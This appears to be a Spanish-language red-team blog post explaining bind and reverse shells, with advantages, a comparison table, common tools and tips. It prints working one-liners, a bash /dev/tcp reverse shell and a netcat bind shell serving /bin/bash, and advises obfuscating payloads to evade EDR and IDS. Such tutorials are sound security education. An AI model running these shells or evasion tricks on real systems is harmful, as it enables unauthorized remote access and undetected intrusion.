 ```yaml
---
layout: post
title: "Bind vs Reverse Shells: Duelos en la terminal del inframundo 🕳️🐚"
author: "l1ttl3bugc4t"
date: "2025-06-16"
tags: [Reverse Shell, Bind Shell, Pentesting, Red Team, Ciberseguridad, Shells]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


Cuando te metes en el mundo del pentesting y el hacking ético, hay dos técnicas clásicas que se convierten en tus aliadas para obtener acceso remoto: **Bind Shells** y **Reverse Shells**.  
Ambas te permiten controlar una máquina comprometida, pero lo hacen de maneras distintas… y estratégicamente geniales 😼⚔️

---

## 🧪 ¿Qué es una Shell?

Una **shell** es una interfaz que te permite interactuar con el sistema operativo a través de comandos.  
Una **reverse shell** o una **bind shell** simplemente llevan esta interacción a través de una conexión de red 🌐

---

## 🔁 Reverse Shell

En una **reverse shell**, el objetivo (la víctima) se conecta **hacia ti**, el atacante.

🧠 **¿Cómo funciona?**
1. El atacante levanta un listener (esperando una conexión)
2. La víctima ejecuta un payload que **conecta de regreso** al atacante
3. ¡Boom! Shell remota 🎯

```bash
# Atacante
nc -lvnp 4444

# Víctima
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

📦 **Ventajas**
- Funciona bien con firewalls (salida de red casi siempre permitida)
- Más sigilosa

🚫 **Desventajas**
- El atacante necesita una IP pública o port forwarding
- Puede ser detectada si el EDR o antivirus monitorea conexiones salientes

---

## 🔗 Bind Shell

En una **bind shell**, el objetivo abre un puerto y **escucha** conexiones.

🧠 **¿Cómo funciona?**
1. La víctima ejecuta un payload que abre un puerto
2. El atacante se conecta a ese puerto

```bash
# Víctima
nc -lvnp 4444 -e /bin/bash

# Atacante
nc 10.0.0.2 4444
```

📦 **Ventajas**
- El atacante no necesita abrir puertos
- Más directa en entornos sin NAT

🚫 **Desventajas**
- Firewalls pueden bloquear conexiones entrantes
- Menos sigilosa

---

## 🧙‍♀️ ¿Cuál elegir?

| Situación | Mejor opción |
|----------|---------------|
| Hay NAT o firewall | Reverse Shell ✅ |
| Tienes control sobre el firewall o red | Bind Shell ✅ |
| Quieres evitar alertas de IDS | Reverse Shell con ofuscación ✅ |
| Objetivo es una red interna con mucho filtrado | Depende del contexto... ¡ambas podrían servir con tunelado! 😼 |

---

## 🧰 Herramientas comunes

- `netcat` (clásico pero detectable)
- `socat` (más flexible y cifrado)
- `msfvenom + Metasploit`
- `nishang`, `powercat`, `pwncat`, `revshells.com`

---

## 🧨 Tips galácticos

- Ofusca tus payloads para evadir EDRs
- Usa TLS si puedes (con `socat` por ejemplo)
- Recuerda que puedes tunelar con SSH, VPN, o herramientas como `chisel`
- ¡Guarda siempre tu IP y puerto en algún lugar mágico! 🪄

---

## ✨ Conclusión

Ambas técnicas son esenciales en tu arsenal Red Team.  
Conocer cuándo usar una u otra puede marcar la diferencia entre un acceso exitoso... y un logeo frustrado.

> _"Una shell no te hace hacker... pero te pone en camino."_ — **l1ttl3bugc4t**

---
